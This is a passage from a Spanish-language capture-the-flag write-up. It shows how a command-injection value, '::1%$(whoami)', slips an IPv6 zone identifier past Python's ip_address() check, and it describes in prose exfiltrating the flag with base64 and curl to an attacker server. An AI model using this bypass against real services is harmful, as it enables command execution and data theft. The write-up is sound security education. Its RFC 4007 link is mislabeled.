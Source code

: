 La parte final del reto consistía en explotar una vulnerabilidad dentro de `attack-ip` con el fin de inyectar comandos. Recordemos que el parámetro `target` es validado con la función `ip_address()`, la cual genera una excepción si la cadena no tiene un formato de dirección IPv4 o IPv6. A continuación, muestro un par de ejemplos de esta funcionalidad:

**Dirección IPv4 válida:**

```python
from ipaddress import ip_address
print(ip_address('127.0.0.1'))
```

**Resultado:**

```sh
127.0.0.1
```

**Dirección IPv4 inválida:**

```python
from ipaddress import ip_address
print(ip_address('127.0.TEST.1'))
```

**Resultado:**

```sh
ERROR!
Traceback (most recent call last):
  File "<main.py>", line 2, in <module>
  File "/usr/local/lib/python3.12/ipaddress.py", line 54, in ip_address
    raise ValueError(f'{address!r} does not appear to be an IPv4 or IPv6 address')
ValueError: '127.0.TEST.1' does not appear to be an IPv4 or IPv6 address
```

Después de leer la [documentación de la biblioteca ipaddress](https://docs.python.org/3/library/ipaddress.html) y el [RFC 4007](https://docs.python.org/3/library/ipaddress.html), aprendí que en IPv6 es posible indicar un identificador de zona, usando la sintaxis `<ipv6>%<id_zona>`. Lo interesante es la única validación que hace la función `ip_address()` sobre esta característica: si el caracter '%' está presente, el ID de zona tambien tiene que incluirse, sin verificar qué tipo de caracteres lo componen.

Teniendo esto en mente, probemos nuevamente la función.

**Dirección IPv6 con inyección de comandos en ID de zona**

```python
from ipaddress import ip_address
print(ip_address('::1%$(whoami)'))
```

**Resultado:**

```sh
::1%$(whoami)
```

La idea detrás del _payload_ final es codificar en base64 la bandera y usar `curl` para crear una petición HTTP, agregando la bandera codificada como parámetro en la URL y enviándola a un servidor bajo nuestro control.
